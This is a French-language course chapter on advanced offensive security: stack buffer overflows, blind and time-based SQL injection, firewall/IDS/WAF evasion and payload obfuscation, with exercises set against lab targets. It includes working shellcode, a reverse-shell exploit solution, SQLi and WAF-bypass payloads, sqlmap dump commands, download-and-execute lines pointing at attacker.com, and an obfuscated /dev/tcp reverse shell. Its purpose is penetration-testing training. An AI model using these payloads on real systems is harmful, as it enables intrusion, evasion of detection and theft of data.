

# Chapitre 03 : Vulnérabilités avancées et contournement des protections

---

## Objectifs pédagogiques

- Maîtriser les techniques avancées de buffer overflow
- Exploiter les injections SQL complexes (blind, time-based, out-of-band)
- Comprendre et contourner les firewalls, IDS et IPS
- Appliquer les techniques d'évasion de détection
- Simuler des attaques ciblées avancées

---

## Introduction

Les défenses réseau et applicatives évoluent constamment. Firewalls, IDS/IPS, WAF : ces mécanismes forment un maillage de protection que les attaquants déterminés contournent au quotidien.

Ce chapitre vous plonge dans les techniques offensives avancées. Vous apprendrez à exploiter des failles complexes et à adapter vos attaques pour passer sous les radars des systèmes de détection.

> **Sources :** [The Web Application Hacker's Handbook](https://www.wiley.com/en-us/The+Web+Application+Hacker%27s+Handbook%3A+Finding+and+Exploiting+Security+Flaws%2C+2nd+Edition-p-9781118026472) — Stuttard & Pinto.

---

## Dépendances / Prérequis

- Connaissance des bases de buffer overflow et d'injection SQL
- Kali Linux avec outils : `sqlninja`, `sqlmap`, `gdb`, `pwntools`
- `pip install pwntools requests`
- Cibles de test : DVWA, Metasploitable 2

---

## 1. Buffer overflow avancé

### Rappel : structure de la pile

```
Adresses hautes
+-----------------+
| arguments       |
+-----------------+
| adresse retour  |  ← EIP contrôle le flux d'exécution
+-----------------+
| saved EBP       |
+-----------------+
| buffer local[64]|
+-----------------+
Adresses basses
```

### Formulation mathématique

Pour contrôler EIP, il faut déterminer l'offset exact où l'adresse de retour est écrasée :

$$
\text{offset}_{EIP} = \text{adresse de la fin du buffer} - \text{adresse de début du buffer} + \text{alignement frame}
$$

Où :
- $\text{buffer}$ : zone mémoire vulnérable allouée
- $\text{offset}_{EIP}$ : nombre d'octets avant l'écrasement de l'adresse de retour
- $\text{alignement frame}$ : padding lié à l'architecture du processeur (généralement 4 ou 8 octets)

> **Explication de la formule :** Déterminer l'offset permet de contrôler précisément quelle valeur sera écrite dans le registre EIP (x86) ou RIP (x64), redirigeant ainsi l'exécution vers notre shellcode.

### Shellcode crafting

```python
#!/usr/bin/env python3
"""Génération et test de shellcode basique."""

from pwn import *

# Shellcode execve("/bin/sh", NULL, NULL) - 32 bits
shellcode_32 = (
    b"\x31\xc0"              # xor eax, eax
    b"\x50"                  # push eax
    b"\x68\x2f\x2f\x73\x68" # push "//sh"
    b"\x68\x2f\x62\x69\x6e" # push "/bin"
    b"\x89\xe3"              # mov ebx, esp
    b"\x50"                  # push eax
    b"\x53"                  # push ebx
    b"\x89\xe1"              # mov ecx, esp
    b"\xb0\x0b"              # mov al, 0x0b (execve)
    b"\xcd\x80"              # int 0x80
)

# Shellcode execve("/bin/sh", NULL, NULL) - 64 bits
shellcode_64 = (
    b"\x48\x31\xf6"          # xor rsi, rsi
    b"\x56"                  # push rsi
    b"\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68" # movabs rdi, "/bin//sh"
    b"\x57"                  # push rdi
    b"\x54\x5f"              # push rsp; pop rdi
    b"\x6a\x3b"              # push 0x3b
    b"\x58"                  # pop rax
    b"\x99"                  # cdq
    b"\x0f\x05"              # syscall
)

print(f"Taille shellcode 32-bit: {len(shellcode_32)} octets")
print(f"Taille shellcode 64-bit: {len(shellcode_64)} octets")
```

> **Sources :** [Shell-Storm Shellcode Database](http://shell-storm.org/shellcode/) — Shell-Storm.

### Débogage avec GDB

```bash
# Compilation du programme vulnérable
gcc -fno-stack-protector -z execstack -no-pie -m32 overflow.c -o overflow

# Analyse avec GDB
gdb -q ./overflow
(gdb) run $(python3 -c 'print("A"*100)')
(gdb) info registers eip
(gdb) pattern create 200  # GDB-Peda / pwndbg
(gdb) pattern offset <valeur_eip>
```

---

## 2. Injections SQL avancées

### Injection SQL aveugle (Blind SQLi)

Quand les messages d'erreur sont désactivés :

$$
\text{Condition vraie} \implies \text{Page identique à la normale}
$$
$$
\text{Condition fausse} \implies \text{Page différente ou erreur}
$$

```sql
-- Blind SQLi booléenne : déduction caractère par caractère
' AND SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1) > 'a' --

-- Blind SQLi temporelle (Time-based)
' OR IF(SUBSTRING(user(),1,1)='r', SLEEP(5), 0) --
```

### SQLmap pour l'automatisation

```bash
# Détection automatique
sqlmap -u "http://cible.com/page.php?id=1"

# Extraction complète de la base
sqlmap -u "http://cible.com/page.php?id=1" --dump-all --batch

# Utilisation d'un proxy (contournement WAF)
sqlmap -u "http://cible.com/page.php?id=1" --proxy="http://127.0.0.1:8080" --tamper=space2comment
```

> **Sources :** [SQLmap Documentation](https://github.com/sqlmapproject/sqlmap/wiki) — sqlmap.org.

---

## 3. Contournement des firewalls, IDS/IPS

### Comprendre les systèmes de détection



### Techniques d'évasion réseau

**1. Fragmentation IP**

Le payload malveillant est découpé en fragments IP qui, pris individuellement, ne déclenchent pas les signatures.

```bash
# Fragmentation avec nmap
nmap -f 192.168.1.1

# Fragmentation personnalisée
nmap --mtu 16 192.168.1.1
```

**2. Tunneling et encapsulation**

```bash
# Tunnel SSH pour bypasser un firewall sortant
ssh -L 8080:cible-interne:80 user@serveur-relais.com

# Tunnel DNS (iodine)
iodine -f -P password tunnel.domaine.com
```

### Contournement de WAF (Web Application Firewall)

```sql
-- Exemple : contournement de filtres SQL basiques
-- Au lieu de : ' OR 1=1 --
-- Utiliser : ' OR 2>1 --
-- Ou : ' OR '1'='1
-- Encodage alternatif : %27%20OR%201%3D1%20--

-- SQLmap tamper scripts
sqlmap -u "http://cible.com/page.php?id=1" --tamper=space2comment,charencode,randomcase
```

> **Sources :** [Awesome WAF](https://github.com/0xInfection/Awesome-WAF) — 0xInfection.

---

## 4. Techniques d'évasion de détection

### Obfuscation de payload

```python
#!/usr/bin/env python3
"""Obfuscation basique de shellcode."""

import base64
import random

def xor_encode(data: bytes, key: int) -> bytes:
    """Encodage XOR simple."""
    return bytes(b ^ key for b in data)

def base64_encode(data: bytes) -> str:
    """Encodage base64."""
    return base64.b64encode(data).decode()

# Shellcode original
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"

# Obfuscation
key = random.randint(1, 255)
encoded = xor_encode(shellcode, key)
print(f"Shellcode XOR (clé={key}): {encoded.hex()}")
print(f"Base64: {base64_encode(encoded)}")

# Décodage pour exécution
decoded = xor_encode(encoded, key)
assert decoded == shellcode, "Échec du décodage"
print("Décodage OK ✓")
```

**Résultat attendu :**
```
Shellcode XOR (clé=87): [hex aléatoire selon la clé]
Base64: [base64]
Décodage OK ✓
```

### Living off the Land (LotL)

Utiliser des outils déjà présents sur la cible pour éviter la détection :

- Windows : `powershell`, `wmic`, `certutil`, `bitsadmin`
- Linux : `curl`, `wget`, `nc`, `bash`, `python`

```powershell
# Windows - Téléchargement furtif
certutil -urlcache -split -f "http://attacker.com/payload.exe" C:\Users\Public\notmalware.exe

# Linux - Exécution furtive
curl -s http://attacker.com/script.sh | bash
```

---

## Exercices

### Exercice 1 : Buffer overflow avec contrôle d'EIP

**Énoncé :** Exploitez un buffer overflow simple pour contrôler EIP et exécuter un shellcode reverse shell.

**Contexte :** Binaire vulnérable fourni, GDB installé, ASLR désactivé.

<details>
<summary><strong>Solution</strong></summary>

```python
#!/usr/bin/env python3
"""Exploit buffer overflow basique."""

from pwn import *

# Étape 1 : Trouver l'offset
# Utiliser pattern_create et pattern_offset dans GDB
offset = 76

# Étape 2 : Trouver l'adresse de JMP ESP
# objdump -d binaire | grep "jmp.*esp"
jmp_esp = 0x080414c3

# Étape 3 : Shellcode reverse shell (LHOST=192.168.1.50, LPORT=4444)
shellcode = asm(shellcraft.i386.linux.connect('192.168.1.50', 4444))

# Étape 4 : Construction du payload
payload = b"A" * offset
payload += p32(jmp_esp)    # Retourne vers JMP ESP
payload += b"\x90" * 16    # NOP sled
payload += shellcode

# Étape 5 : Envoi
p = process('./binaire_vulnerable')
p.sendline(payload)
p.interactive()
```
</details>

### Exercice 2 : Blind SQLi manuelle

**Énoncé :** Sur une application vulnérable, déterminez le nom de la base de données via une injection SQL aveugle temporelle (time-based), caractère par caractère.

<details>
<summary><strong>Solution</strong></summary>

```sql
-- Vérification de la vulnérabilité time-based
' OR IF(1=1, SLEEP(3), 0) -- 

-- Extraction du nom de la BDD
' OR IF(
    ASCII(SUBSTRING((SELECT database()), 1, 1)) = 100,
    SLEEP(3), 0
) --
  -- Si délai de 3s, le 1er caractère est 'd' (ASCII 100)
```
</details>

---

## Lab : Attaque simulée avec évasion complète

**Durée estimée :** 2h

**Contexte :** Architecture avec cible, firewall IDS et application vulnérable.

### Objectif

Réaliser une attaque complète en contournant les protections : scan furtif → exploitation → évasion → persistance.

### Instructions

1. Scan furtif (fragmentation, timing)
2. Exploitation avec payload obfusqué
3. Établissement d'une communication C2 discrète (DNS/HTTPS tunneling)
4. Persistance furtive sur la cible

### Code

```python
#!/usr/bin/env python3
"""
Lab : attaque avec évasion.

Usage:
    python lab_evasion.py --target 192.168.1.10
"""

import argparse
import time
import random
import socket

def stealth_scan(target: str, port: int) -> bool:
    """Scan TCP avec délai aléatoire pour éviter la détection."""
    time.sleep(random.uniform(0.5, 3.0))  # Jitter
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(1)
    result = sock.connect_ex((target, port))
    sock.close()
    return result == 0

def xor_obfuscate(data: bytes, key: bytes) -> bytes:
    """Obfuscation XOR avec clé multi-octets."""
    return bytes(data[i] ^ key[i % len(key)] for i in range(len(data)))

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--target", required=True)
    args = parser.parse_args()

    # Scan furtif
    common_ports = [21, 22, 80, 443, 445, 3306, 8080, 8443]
    open_ports = []
    for port in common_ports:
        if stealth_scan(args.target, port):
            open_ports.append(port)
            print(f"[+] Port {port} ouvert")
    
    print(f"\n[*] Ports ouverts : {open_ports}")
    
    # Exemple d'obfuscation de commande
    cmd = b"/bin/sh -i >& /dev/tcp/192.168.1.50/4444 0>&1"
    key = b"k3y"
    obfuscated = xor_obfuscate(cmd, key)
    print(f"\n[*] Commande obfusquée : {obfuscated.hex()}")
```

---

## Points clés à retenir

- Le buffer overflow avancé nécessite le contrôle précis d'EIP/RIP via l'offset
- Les injections SQL aveugles (booléennes, temporelles) contournent l'absence de messages d'erreur
- Firewalls et IDS/IPS peuvent être contournés par fragmentation, tunneling, obfuscation
- Living off the Land (LotL) permet d'opérer sans déposer d'outils suspects
- Chaque couche de défense a ses angles morts — l'attaquant doit être créatif

## Pour aller plus loin

- [Corelan Exploit Development](https://www.corelan.be/index.php/articles/)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [MITRE ATT&CK - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)

---

*Chapitre précédent : [Jour 2 — Tests de pénétration et exploitation](./JOUR-02.md)*
*Chapitre suivant : [Jour 4 — Contre-mesures et sécurisation](./JOUR-04.md)*
